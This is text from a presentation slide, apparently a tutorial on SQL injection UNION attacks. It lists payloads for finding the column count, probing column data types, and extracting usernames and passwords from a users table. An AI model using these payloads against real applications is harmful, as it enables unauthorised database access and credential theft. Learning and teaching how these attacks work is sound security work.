

The application might actually return the database error in its HTTP response, or it might return a generic error, or simply return no results
The second method involves submitting a series of UNION SELECT payloads specifying a different number of null values
' UNION SELECT NULL—
 ' UNION SELECT NULL,NULL—
 ' UNION SELECT NULL,NULL,NULL–
etc.
' UNION SELECT NULL FROM DUAL--     (oracale database)

Finding columns with a useful data type(string/int/or other types) in an SQL injection UNION attack
' UNION SELECT NULL,NULL,NULL,'a'—
' UNION SELECT NULL,'a',NULL,NULL—

' UNION SELECT username, password(coloumns) FROM users– (table)